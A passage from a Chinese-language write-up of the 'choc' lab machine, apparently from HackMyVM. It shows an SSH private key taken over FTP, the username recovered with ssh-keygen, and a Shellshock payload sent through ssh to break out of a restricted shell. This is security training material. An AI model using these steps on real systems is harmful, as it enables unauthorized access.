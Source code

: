 ```bash
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||37705|)
150 Opening BINARY mode data connection for id_rsa (1811 bytes).
100% |**********************************************************|  1811      824.88 KiB/s    00:00 ETA
226 Transfer complete.
1811 bytes received in 00:00 (647.58 KiB/s)
ftp> exit
221 Goodbye.

```

获取到了私钥,但是不知道对应的用户名

我们利用私钥生成对应的公钥即可
```bash
┌──(root㉿kali)-[~/Desktop/hmv/choc]
└─# ssh-keygen -y -f id_rsa
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxAJzNHJ+k1YTZSCqbdmY4jXCNGuDrEeHLmsEHMDkiHpT1y+IeLVxyUurWkDwwWAes78bfHHkXbINVj7491EjoH3r4OwxhhZa4z9mtWaJlWtdllzEysC6GUr1TIPXc3vZkiPbUuAWYrz4bHbpQoIuYl+cAgOKPKbFRRhfLIOqk+1bsM+LVcWgwT5ZICpxiTOiISNAUPgInrBKkrlFott+jNPuZwTy/yV7Ix4CejknMGg1MquyP+2LyzeEpmf+OcwoS5r/jVWlSddO1Fim373lTNpDOKj2kwNsa9zO/9jAjN7uhu1mh7wb8ldU0ImCep4C6drJSTbfYOLlV7rLgfH0X carl@choc

```
获取到了用户名是 `carl@choc`

ssh连接后会立马中断连接。
```bash
┌──(root㉿kali)-[~/Desktop/hmv/choc]
└─# ssh -i id_rsa carl@192.168.56.15


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################






        ███████╗ █████╗ ██╗██╗     ███████╗██████╗     ██╗      ██████╗ ██╗
        ██╔════╝██╔══██╗██║██║     ██╔════╝██╔══██╗    ██║     ██╔═══██╗██║
        █████╗  ███████║██║██║     █████╗  ██║  ██║    ██║     ██║   ██║██║
        ██╔══╝  ██╔══██║██║██║     ██╔══╝  ██║  ██║    ██║     ██║   ██║██║
        ██║     ██║  ██║██║███████╗███████╗██████╔╝    ███████╗╚██████╔╝███████╗
        ╚═╝     ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚═════╝     ╚══════╝ ╚═════╝ ╚══════╝



Connection to 192.168.56.15 closed.

```
看来应该给我们了一个rbash
### 2.3. rbash绕过
尝试一些方法进行绕过
这里可以通过shellshock漏洞绕过
```bash
┌──(root㉿kali)-[~/Desktop/hmv/choc]
└─# ssh -i id_rsa carl@192.168.56.15 -t  "() { :; }; /bin/bash"

```